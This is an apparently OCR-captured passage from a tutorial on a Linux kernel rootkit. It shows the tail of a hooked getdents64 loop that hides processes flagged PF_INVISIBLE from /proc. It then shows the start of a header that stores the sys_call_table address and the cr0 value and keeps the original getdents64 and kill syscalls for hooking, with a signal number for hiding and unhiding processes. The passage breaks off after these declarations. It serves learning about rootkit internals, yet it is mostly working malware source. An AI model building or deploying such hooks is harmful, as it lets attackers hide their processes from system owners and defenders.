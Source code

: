 ```c
		}
		prev->d_reclen += dir->d_reclen;
	}
	else
	{
		prev = dir;
	}
	offset += dir->d_reclen;
}
```
   The while loop goes through the _array of dirent_ returned by getdents64 (or, in this context orig_getdents64).\
   It checks whether.
   1. The directory entry within the _array of dirent_ is in `/proc/` directory
   2. It is invisible

   It then performs the changes to the `kdirent` then eventually to `dirent`, so that it can be passed to user space.

   Whole Code (Test_hook_getdents64.h):
```c
#include <linux/syscalls.h>     /* Needed to use syscall functions */
#include <linux/slab.h>         /* kmalloc(), kfree(), kzalloc() */
#include <linux/sched.h>        /* task_struct: Core info about all the tasks */
#include <linux/fdtable.h>      /* Open file table structure: files_struct structure */
#include <linux/proc_ns.h>	/* For `PROC_ROOT_INO` */

#include <asm/ptrace.h>		/* For intercepting syscall, struct named pt_regs is needed */


// =============================================================================

#include <linux/dirent.h>	/* struct dirent refers to directory entry. */

struct linux_dirent {
	unsigned long   d_ino;		/* inode number */
	unsigned long   d_off;		/* offset to the next dirent */
	unsigned short  d_reclen;	/* length of this record */
	char            d_name[1];	/* filename */
};

#define PF_INVISIBLE 0x10000000

#define HIDE_UNHIDE_PROCESS 32

// ==================================================================================

/* For storing read cr0 control register value
 *
 * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
 *
 * unsigned long (*read_cr0)(void);
 */
unsigned long cr0;

// To store the address of the found sys_call_table
static unsigned long *__sys_call_table;

// Defining a function to store original syscalls
typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);

static tt_syscall orig_getdents64;
static tt_syscall orig_kill;

```
